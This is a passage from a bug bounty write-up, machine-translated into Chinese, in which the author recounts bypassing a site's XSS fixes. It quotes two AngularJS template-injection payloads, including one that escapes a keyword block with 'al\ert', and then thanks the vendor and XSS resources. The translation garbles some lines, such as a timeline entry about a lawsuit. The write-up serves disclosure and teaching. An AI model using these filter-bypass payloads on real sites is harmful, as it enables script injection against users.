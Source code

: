 用这个有效负载绕过了它:

```
https://important.█████.com/█████/█████?...&param1=value1"+ng-val={{{}.")));x=alert;x(1)//"}}+"
```

他们也修复了这个问题，所以我再次绕过修复，使用:

```
https://important.█████.com/█████/█████?...&param1=value1"+ng-val={{{}.")));new+Function`al\ert\`XSS-By-Viren\``;//"}}+"
```

使用`al\ert`绕过了阻挡词“alert ”,这两个词很好，并且又修复了一个，最终它变得不容易受到攻击。

最后，bug bounty 不仅仅是关于发现和报告 bug 以获得奖励，而是关于创造性、愤怒和聪明，并且重要的是带着热情工作**而不是为了钱，我提到时间线只是为了让新来者理解，获得越来越多的 bug 可能需要时间，所以只要冷静下来并进行狩猎。这是一个在█████的多个沉睡的 xs 从子域到主子域和主域发现 bug 的故事。**

> 因为这些虫子，我获得了█████'s 虫子奖励计划的奖励。

██.██.2020:因窃取用户信息报告而被█████法院起诉

██.██.2020:所有其它 XSS 报告的 INR █████

首先感谢█████'s 安全团队，感谢他们的良好合作，感谢他们的积极回应。我注意到许多公司甚至不回复你的邮件，而█████有这么好的安全研究员平台值得一提。

最诚挚的感谢 [Somdev Sangwan](https://medium.com/u/6397cd49a043?source=post_page-----509232194a4e----------------------) 🙏因为他关于 XSS 的令人敬畏的知识库，这个知识库和在那里分享的知识是我学习的真正来源。为了修复旁路和提高有效负载，我使用了 [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) 存储库🔥。

我想提及对万能真主的赞颂🙏[拉玛勋爵](https://en.wikipedia.org/wiki/Rama)和🙏[哈奴曼勋爵。我相信没有他们的恩典，我什么都不是，我的一切都是他们的礼物。我向他们鞠躬，并将永远向他们鞠躬。](https://en.wikipedia.org/wiki/Hanuman)

*感谢阅读。随时联系，我只是一个消息。这里联系我:*[***insta gram***](https://www.instagram.com/viren__pawar/)*，*[***Twitter***](https://twitter.com/VirenPawar_)*。*